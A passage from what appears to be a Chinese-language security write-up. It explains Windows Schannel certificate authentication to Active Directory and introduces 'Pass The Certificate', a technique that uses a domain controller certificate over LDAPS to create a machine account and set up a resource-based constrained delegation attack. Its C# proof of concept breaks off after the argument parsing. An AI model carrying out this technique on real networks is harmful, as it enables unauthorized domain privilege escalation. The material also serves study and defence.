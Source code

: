 Secure Channel（Schannel）是 Windows 在建立 TLS/SSL 连接时利用的 SSP。Schannel 支持客户端身份验证（以及许多其他功能），使远程服务器能够验证连接用户的身份。它使用 PKI 完成此操作，证书是主要凭据。在 TLS 握手期间，服务器要求客户端请提供证书以进行身份验证。客户端先前已从服务器信任的 CA 颁发客户端身份验证证书，然后将其证书发送到服务器。然后，服务器验证证书是否正确，并在一切正常的情况下授予用户访问权限。Comodo 在他们的博客文章[《What is SSL/TLS Client Authentication? How does it work?》](https://comodosslstore.com/blog/what-is-ssl-tls-client-authentication-how-does-it-work.html)上对这个过程进行了简单的概述。

当帐户使用证书向 AD 进行身份验证时，DC 需要以某种方式将证书凭据映射到 AD 帐户。Schannel 首先尝试使用 Kerberos 的扩展协议 S4U2Self 将凭据映射到用户帐户。如果不成功，它将尝试使用证书的 SAN 扩展、主题和颁发者字段的组合或仅从颁发者将证书映射到用户帐户。

默认情况下，AD 环境中没有多少协议支持通过 Schannel 开箱即用的 AD 身份验证。WinRM、RDP 和 IIS 都支持使用 Schannel 的客户端身份验证，但它需要额外的配置，并且在某些情况下（如 WinRM）不与 Active Directory 集成。令一种通常有效的协议是 LDAPS（又名 LDAP over SSL/TLS）。事实上，从 AD 技术规范（MS-ADTS）中了解到，甚至可以直接对 LDAPS 进行客户端证书身份验证。

这意味着我们最开始为域控申请到的证书可以有用武之地，能够向 LDAP 服务进行身份验证。与 Pass The Hash 类似，我们可以将这一过程命名为 Pass The Certificate。

Pass The Certificate
--------------------

为了验证我们的利用思路，我通过 C# 创建创建了一个名为 [PassTheCertificate](https://gist.github.com/wh0amitz/8d619ee2004d323bf9d4ec3c66751a4e) 的概念性 POC。该 POC 执行后，会通过提供的证书认证到 LDAPS，创建一个新的机器账户，并为指定的机器账户设置 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，以执行基于资源的约束委派（RBCD）攻击。

### Main Function

如下编写入口函数，用于获取命令行参数，并初始化 AllowedToAct 类执行攻击过程。

```c#
static void Main(string[] args)
{
    string Domain = null;
    string Server = null;
    int    PortNumber = 636;
    string CertPath = null;
    string CertPassword = null;
    string MachineAccount = null;
    string MachinePassword = null;
    string TargetMachineDN = null;

    for (int i = 0; i &lt; args.Length; i++)
    {
        switch (args[i])
        {
            case "-Domain":
                Domain = args[i + 1];
                break;
            case "-Server":
                Server = args[i + 1];
                break;
            case "-PortNumber":
                PortNumber = Convert.ToInt32(args[i + 1]);
                break;
            case "-CertPath":
                CertPath = args[i + 1];
                break;
            case "-CertPassword":
                CertPassword = args[i + 1];
                break;
            case "-Target":
                TargetMachineDN = args[i + 1].TrimEnd('$');
                break;
            case "-MachineAccount":
                MachineAccount = args[i + 1].TrimEnd('$');
                break;
            case "-MachinePassword":
                MachinePassword = args[i + 1];
                break;
```